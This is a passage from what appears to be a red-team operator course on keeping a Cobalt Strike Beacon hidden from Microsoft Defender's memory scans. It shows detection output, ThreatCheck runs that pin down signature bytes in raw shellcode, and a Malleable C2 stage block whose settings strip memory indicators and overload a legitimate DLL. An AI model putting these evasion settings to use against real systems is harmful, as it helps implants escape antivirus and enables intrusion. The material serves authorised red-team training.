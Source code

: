 Beacon is also susceptible to being caught whilst it's running in memory.  Some actions, such as lateral movement, will trigger these memory scans; but Defender also carries out routine scans against running processes.  Therefore, the time between spawning your Beacon and the time to detection can vary greatly.  You can see the "sms" label in the Defender UI, which indicates the alert originated from a memory scan.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/8e2/080/a94/sms.png)

  

Alternatively, `Get-MpThreatDetection` labels them as _behavior:_process_.
```

ActionSuccess                  : True
AdditionalActionsBitMask       : 0
AMProductVersion               : 4.18.23080.2006
CleaningActionID               : 3
CurrentThreatExecutionStatusID : 3
DetectionID                    : {7114476A-30B4-4D1C-A50A-14C024DFBDD3}
DetectionSourceTypeID          : 0
DomainUser                     :
InitialDetectionTime           : 12/10/2023 13:52:38
LastThreatStatusChangeTime     : 12/10/2023 13:52:40
ProcessName                    : C:\Windows\System32\rundll32.exe
RemediationTime                : 12/10/2023 13:52:40
Resources                      : {behavior:_process: C:\Windows\System32\rundll32.exe, pid:3196:59045527721095,
                                 process:_pid:3196,ProcessStart:133415922931504282}
ThreatID                       : 2147798570
ThreatStatusErrorCode          : 0
ThreatStatusID                 : 4
PSComputerName                 :
```
  

Scanning the shellcode payload type with ThreatCheck can be a good way to help find these signatures because although the service binary artifact itself is "clean":
```
PS C:\Users\Attacker\Desktop> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\http_x64.svc.exe
[+] No threat found!
[*] Run time: 0.55s
```
  

The raw shellcode is not:
```
PS C:\Users\Attacker\Desktop> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\http_x64.xprocess.bin
[+] Target file size: 295936 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0xF61F
00000000   3B DE 7D 34 0F BE 13 48  FF C3 40 0F BE C5 8B CA   ;_}4·_·HÿA@·_Å?E
00000010   C0 FA 04 41 83 C2 02 83  E1 0F 80 E2 0F 03 C8 40   Aú·A?A·?á·?â··E@
00000020   02 D5 43 88 4C 0B 01 49  8D 0C 18 43 88 14 0B 49   ·OC?L··I?··C?··I
00000030   83 C3 02 48 3B CF 7C C7  48 8B 5C 24 08 48 8B 6C   ?A·H;I|ÇH?\$·H?l
00000040   24 10 48 8B 74 24 18 48  8B 7C 24 20 41 8B C2 C3   $·H?t$·H?|$ A?AA
00000050   CC 4C 63 D2 49 63 C1 49  83 EA 04 4C 3B D0 76 03   ILcOIcAI?ê·L;Dv·
00000060   33 C0 C3 4C 8B D9 48 83  C1 04 83 EA 04 74 25 45   3AAL?UH?A·?ê·t%E
00000070   33 C9 44 8B D2 49 2B C8  49 8B C1 49 FF C1 83 E0   3ÉD?OI+EI?AIÿA?à
00000080   03 42 8A 04 18 42 32 04  01 41 88 00 49 FF C0 49   ·B?··B2··A?·IÿAI
00000090   FF CA 75 E4 8B C2 C3 CC  CC 48 8B C4 48 89 58 08   ÿEuä?AAIIH?ÄH?X·
000000A0   48 89 68 10 48 89 70 18  48 89 78 20 41 56 48 83   H?h·H?p·H?x AVH?
000000B0   EC 20 48 63 F2 49 63 C1  49 8B D8 48 83 C6 04 8B   ì HcòIcAI?OH?Æ·?
000000C0   FA 48 8B E9 4D 8B F0 48  3B F0 76 04 33 C0 EB 33   úH?éM?dH;dv·3Aë3
000000D0   E8 E4 ED FF FF 33 D2 89  03 48 83 C3 04 85 FF 74   èäíÿÿ3O?·H?A·?ÿt
000000E0   20 48 2B EB 48 8B C7 48  8B CA 48 FF C2 83 E1 03    H+ëH?ÇH?EHÿA?á·
000000F0   42 8A 0C 31 32 0C 2B 88  0B 48 FF C3 48 FF C8 75   B?·12·+?·HÿAHÿEu
```
  

This indicates to us that the signature(s) are targeting the reflective loader or the Beacon DLL.  The Beacon source code is closed source, so we have no way to access or modify it directly.  We could technically write a completely custom reflective loader through the UDRL kit, but that's out of scope for the RTO audience.  The easiest way to make modifications to both of these components is by using what's exposed in Malleable C2.

These are the four simple settings that I recommend trying:
```
stage {
        set userwx "false";
        set cleanup "true";
        set obfuscate "true";
        set module_x64 "xpsservices.dll";
}
```
  

Setting `userwx` to _false_ tells the reflective loader to allocate memory for the Beacon DLL as RW/RX rather than RWX.  Although this does not remove any indications from the Beacon itself, having RX memory is certainly less suspicious than RWX.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/a9d/6b0/4d0/reflective-loader-memory.png)

  

Setting `cleanup` to _true_ tells Beacon to free the memory associated with the reflective loader after it has been loaded.  Once the Beacon is loaded, the reflective loader is no longer required and leaving it in memory just results in indicators sitting there waiting to be spotted.  This allows the reflective loader to be freed, thus removing those indicators for the remainder of Beacon's lifetime.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/0ee/294/65d/cleanup.png)

  

Setting `obfuscate` to _true_ does a number of things but the most interesting is that it instructs the reflective loader to load Beacon into memory without its DLL headers.  The omission of these headers reduces the number of indicators in memory, which will circumvent signatures target them specifically.

In all cases above, we can see that the "Use" column for Beacon's memory region is blank.  This is because the DLL is reflectively loaded from memory, rather than being loaded from disk.  Every other legitimate RX region in the process is backed by a DLL on disk, so this makes the Beacon stand out.  Setting the _module_x64_ (and _module_x86_ for 32-bit payloads) tells the reflective loader to load the specified DLL from disk first and then overwrite the memory allocated for it with Beacon.  This has the effect of making it appear as though Beacon's memory region is backed by a legitimate DLL.  There are two caveats to consider when choosing a DLL to use.

1. The DLL size must be equal to or greater than Beacon.
2. The DLL must not be needed by the application hosting Beacon.  This isn't a concern when executing the artifacts, but does become relevant when injecting Beacon shellcode into existing processes.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/224/f39/3b6/module-overload.png)